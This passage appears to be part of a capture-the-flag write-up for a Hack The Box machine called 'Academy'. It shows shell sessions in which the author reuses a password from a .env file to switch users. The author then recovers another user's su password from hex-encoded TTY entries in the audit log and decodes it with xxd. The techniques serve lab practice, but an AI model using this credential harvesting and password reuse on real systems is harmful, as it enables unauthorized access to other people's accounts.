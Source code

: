 ```
PUSHER_APP_KEY=
PUSHER_APP_SECRET=
PUSHER_APP_CLUSTER=mt1

MIX_PUSHER_APP_KEY="${PUSHER_APP_KEY}"
MIX_PUSHER_APP_CLUSTER="${PUSHER_APP_CLUSTER}"
www-data@academy:/var/www/html/htb-academy-dev-01$ 
```

and mySup3rP4s5w0rd!! this password works on user cry0l1t3


```
www-data@academy:/var/www/html/htb-academy-dev-01$ su -l cry0l1t3
su -l cry0l1t3
Password: mySup3rP4s5w0rd!!

$ whoami
whoami
cry0l1t3
$ id
id
uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)
$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
cry0l1t3@academy:~$
```

I rerun linpeas and see this:

```
[+] Checking for TTY (sudo/su) passwords in logs
Error opening config file (Permission denied)                                                                                                                                          
NOTE - using built-in logs: /var/log/audit/audit.log
1. 08/12/2020 02:28:10 83 0 ? 1 sh "su mrb3n",<nl>
2. 08/12/2020 02:28:13 84 0 ? 1 su "mrb3n_Ac@d3my!",<nl>
/var/log/audit/audit.log.3:type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A

[...]
[...]
[...]

cry0l1t3@academy:/tmp$ which xxd
which xxd
/usr/bin/xxd
cry0l1t3@academy:/tmp$ echo "6D7262336E5F41634064336D79210A" | xxd -r -p
echo "6D7262336E5F41634064336D79210A" | xxd -r -p
mrb3n_Ac@d3my!
cry0l1t3@academy:/tmp$ su mrb3n
su mrb3n
Password: mrb3n_Ac@d3my!

$ id
id
uid=1001(mrb3n) gid=1001(mrb3n) groups=1001(mrb3n)
$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
mrb3n@academy:/tmp$
mrb3n@academy:/tmp$ sudo -l
sudo -l
[sudo] password for mrb3n: mrb3n_Ac@d3my!

```